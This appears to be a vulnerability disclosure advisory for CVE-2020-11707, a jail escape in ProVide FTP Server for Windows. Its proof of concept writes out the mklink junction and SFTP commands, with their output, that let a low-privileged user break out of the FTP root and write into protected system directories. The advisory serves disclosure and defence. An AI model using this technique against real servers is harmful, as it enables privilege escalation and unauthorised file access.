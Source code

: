 ```yaml
---
layout: default
parent: ProVide FTP Server for Windows
nav_order: 7
title: CVE-2020-11707 - Jail Escape (Privilege Escalation) via Symlink
---
```


# Jail Escape via Symlink

## Summary

It was identified that ProVide FTP Server (formerly zFTP) for Windows, doesn't enforce permission over Windows Symlinks or Junctions. As a result, a low privileged user (non-admin), can craft a Junction Link in a directory he has full control, breaking out of the sandbox.

## VulDB-Like Summary

A vulnerability has been found in ProVide FTP Server (formerly zFTP) for Windows up to v13.1 and classified as problematic. This vulnerability affects some unknown functionality. The manipulation with an unknown input leads to a sandbox bypass vulnerability. The CWE definition for the vulnerability is CWE-284. As an impact it is known to affect confidentiality, integrity, and availability.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11707. The attack should be launched initiated locally. The exploitation needs multiple authentications to be performed. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

#### User 1 - Low Privileged FTP User

Root Directory: C:\Users\lowpriv\Desktop\
Permission on Root Directory: 
* Files: Read, Write, Delete, Append 
* Dirs: List, Make, Delete, +Subdirs

#### User 2 - Low Privileged Windows User

Windows User: lowpriv
Standard User, no admin rights

```
C:\Users\lowpriv\Desktop> whoami
lowpriv
C:\Users\lowpriv\Desktop> mklink /J escape C:\
Junction created for escape <<===>> C:\
C:\Users\lowpriv\Desktop> mkdir C:\Windows\security\audit\pwnd
Access is denied.
C:\Users\lowpriv\Desktop> sftp lowpriv@127.0.0.1
Connected to lowpriv@127.0.0.1.
sftp> dir
Google Chrome.lnk  desktop.ini        escape
sftp> mkdir /escape/Windows/security/audit/pwnd
sftp> cd /escape/Windows/security/audit/pwnd
sftp> pwd
Remote working directory: /escape/Windows/security/audit/pwnd/
sftp>
```

## Remediation

No official fix currently exists for this vulnerability.

## References

* https://cwe.mitre.org/data/definitions/284.html
* https://cwe.mitre.org/data/definitions/501.html
* https://cwe.mitre.org/data/definitions/266.html 
